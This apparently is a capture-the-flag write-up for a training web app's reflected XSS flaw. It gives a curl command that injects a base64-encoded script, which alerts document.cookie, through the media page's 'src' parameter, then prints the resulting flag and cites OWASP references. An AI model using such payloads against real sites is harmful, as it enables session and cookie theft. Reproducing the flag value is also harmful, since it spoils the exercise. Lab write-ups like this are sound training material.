 # Reflected XSS

One image on the home page is clickable and it follows to the `http://$IPADDR/?page=media` page

```bash
curl -s "http://$IPADDR/?page=media&src=data:text/html;base64,PHNjcmlwdD5hbGVydChkb2N1bWVudC5jb29raWUpPC9zY3JpcHQ+" | grep flag

...
 The flag is : 928d819fc19405ae09921a2b71227bd9aba106f9d2d37ac412e9e5a750f1506d
...
```

## References
- [Testing Reflected XSS — OWASP](https://owasp.org/www-project-web-security-testing-guide/v41/4-Web_Application_Security_Testing/07-Input_Validation_Testing/01-Testing_for_Reflected_Cross_Site_Scripting.html)
- [Cross Site Scripting (XSS) — OWASP](https://owasp.org/www-community/attacks/xss/)
- [XSS Cheatsheet](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html)
- [Эффективный поиск XSS-уязвимостей — Habr](https://habr.com/ru/company/jugru/blog/569270/)